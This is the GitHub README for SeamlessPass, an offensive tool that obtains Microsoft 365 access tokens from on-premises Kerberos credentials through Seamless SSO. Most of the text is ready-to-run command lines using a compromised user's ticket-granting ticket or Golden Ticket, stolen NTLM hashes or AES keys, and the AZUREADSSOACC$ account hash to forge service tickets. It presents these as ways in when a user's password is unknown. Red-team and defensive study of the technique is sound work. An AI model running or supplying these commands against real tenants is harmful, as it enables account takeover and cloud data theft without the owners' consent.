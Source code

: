 # SeamlessPass
Leveraging Kerberos tickets to get Microsoft 365 access tokens using Seamless SSO
---

SeamlessPass is a tool for obtaining Microsoft 365 access tokens using on-premises Active Directory Kerberos tickets for organization with enabled Seamless SSO (Desktop SSO) feature. 

## Installation

SeamlessPass can be installed using PyPI or from the source. After installation, the tool will be available using `seamlesspass` command. 

### Using PyPI

```bash
pip install seamlesspass
```

### From Source

1. Download source code (as archive or using `git clone https://github.com/Malcrove/SeamlessPass.git`)
2. Navigate to the code directory
3. Install using `pip install .`, or install requirements `pip install -r requirements.txt` then run directly using `python run.py`

## Usage

```bash

   _____                      _               _____
  / ____|                    | |             |  __ \      v(0.1)
 | (___   ___  __ _ _ __ ___ | | ___  ___ ___| |__) |_ _ ___ ___
  \___ \ / _ \/ _` | '_ ` _ \| |/ _ \/ __/ __|  ___/ _` / __/ __|
  ____) |  __/ (_| | | | | | | |  __/\__ \__ \ |  | (_| \__ \__ \
 |_____/ \___|\__,_|_| |_| |_|_|\___||___/___/_|   \__,_|___/___/

 By Abood Nour (@0xSyndr0me) - Malcrove (https://malcrove.com/)

Leveraging Kerberos tickets to get cloud access tokens using Seamless SSO

Usage: seamlesspass [-t tenant domain] [-r resource URI] [-c client_id] [-ignore-sso-check] [-d domain] [-dc DC host/IP] [-u username] [-p password] [-n [LMHASH:]NTHASH] [-aes AESKey] [-tgt base64 TGT / TGT file] [-tgs base64 TGS / TGS file] [-spn SPN] [-domain-sid SID] [-user-rid number] [-user-sid SID] [-adssoacc-ntlm [LMHASH:]NTHASH] [-adssoacc-aes AESKey] [-proxy [scheme]://[user:password]@[host]:[port]] [-ua USERAGENT] [-debug] [-no-color] [-h]

Microsoft 365 options:
  -t/-tenant tenant domain
                        Domain of the tenant (e.g. example.com, corp.onmicrosoft.com)
  -r/-resource resource URI
                        Target cloud service to be accessed (Default: https://graph.windows.net)
  -c/-client-id client_id
                        Microsoft 365 client ID (Default: 1b730954-1685-4b74-9bfd-dac224a7b894)
  -ignore-sso-check     Try to login using Seamless SSO even if it is not enabled

Authentication Options:
  -d/-domain domain
                        Local domain (e.g., corp.local)
  -dc/-dc-ip DC host/IP
                        Hostname or IP Address of the domain controller used for authentication (example: dc.corp.local, 10.0.1.2)
  -u/-username username
  -p/-password password
  -n/-ntlm [LMHASH:]NTHASH
                        User's NTLM hashed password, format is [LMHASH:]NTHASH
  -aes AESKey  User's AES 128/256 key
  -tgt base64 TGT / TGT file
                        base64-encoded Ticket-Granting Ticket (TGT) or path to TGT file (kirbi/ccache)
  -tgs base64 TGS / TGS file
                        base64-encoded Service Ticket (TGS) or path to TGS file (kirbi/ccache)
  -spn SPN     Target service principal name. (Default: HTTP/autologon.microsoftazuread-sso.com)

Ticket Forgery Options:
  -domain-sid SID
                        Domain Security Identifier
  -user-rid number
                        User Relative ID (Last part of user SID)
  -user-sid SID
                        User Security Identifier
  -adssoacc-ntlm [LMHASH:]NTHASH
                        NTLM hash of AZUREADSSOACC account (Used to forge TGS)
  -adssoacc-aes AESKey
                        AES 128/256 Key of AZUREADSSOACC account (Used to forge TGS)

Connection Options:
  -proxy [scheme]://[user:password]@[host]:[port]
                        NOTE: This is used only for HTTP requests not DC communication. (example: http://burp:8080)
  -ua/-user-agent USERAGENT
                        HTTP User agent used in interaction with Microsoft 365 APIs

Misc options:
  -debug                Turn debug output on
  -no-color             Turn off console colors
  -h/--help             Show this help message and exit.

Examples:
  seamlesspass -tenant corp.com -domain corp.local -dc dc.corp.local -tgt <base64_encoded_TGT>
  seamlesspass -tenant corp.com -tgs user_tgs.ccache
  seamlesspass -tenant corp.com -domain corp.local -dc dc.corp.local -username user -ntlm DEADBEEFDEADBEEFDEADBEEFDEADBEEF
  seamlesspass -tenant corp.com -domain corp.local -dc 10.0.1.2 -username user -password password
  seamlesspass -tenant corp.com -adssoacc-ntlm DEADBEEFDEADBEEFDEADBEEFDEADBEEF -user-sid S-1-5-21-1234567890-1234567890-1234567890-1234
  seamlesspass -tenant corp.com -adssoacc-aes DEADBEEFDEADBEEFDEADBEEFDEADBEEF -domain-sid S-1-5-21-1234567890-1234567890-1234567890 -user-rid 1234
```

## Use Cases

The tool can be used to obtain access tokens for Microsoft 365 services for tenants with enabled Seamless SSO feature. The access tokens can be then fed to other tools such as `ROADTools` and `AADInternals` for further enumeration or offensive capabilities. The tool can be very handy in various situations where the **cleartext password of the user is unknown** but other forms of access are obtainable such as

- Using compromised user’s Ticket-Granting-Ticket (TGT) or forged Golden Ticket 
(*Interacts with DC)*
    
    ```bash
    seamlesspass -tenant corp.com -domain corp.local -dc dc.corp.local -tgt <base64_encoded_TGT>
    ```
    
- Using compromised user’s NTLM hash or AES key
(*Interacts with DC)*
    
    ```bash
    seamlesspass -tenant corp.com -domain corp.local -dc dc.corp.local -username user -ntlm DEADBEEFDEADBEEFDEADBEEFDEADBEEF
    ```
    
- Acquisition of AZUREADSSOACC$ account NTLM hash or AES key 
*(No interaction with DC is needed)*
    
    ```bash
    seamlesspass -tenant corp.com -adssoacc-ntlm DEADBEEFDEADBEEFDEADBEEFDEADBEEF -user-sid S-1-5-21-1234567890-1234567890-1234567890-1234
    ```
    

## TODO

- [ ]  Support interactive Multiple-Factor Authentication (MFA)
- [ ]  ...?

## Contact

Please submit any bugs, issues, questions, or feature requests under "Issues" or send them to me on Twitter @0xSyndr0me

## Credits

Creation of this tool would have been much harder if it wasn’t for the awesome work and research by folks like

- [SecureAuthCorp](https://github.com/SecureAuthCorp) and all the [contributors](https://github.com/SecureAuthCorp/impacket/graphs/contributors) for [Impacket](https://github.com/SecureAuthCorp/impacket)
- [Dr. Nestori Syynimaa](https://twitter.com/DrAzureAD) for [AADInternals](https://github.com/Gerenios/AADInternals)
- [Oliver Lyak](https://twitter.com/ly4k_) for [Certipy](https://github.com/ly4k/Certipy)
- [Dirk-jan](https://twitter.com/_dirkjan) for [ROADTools](https://github.com/dirkjanm/ROADtools)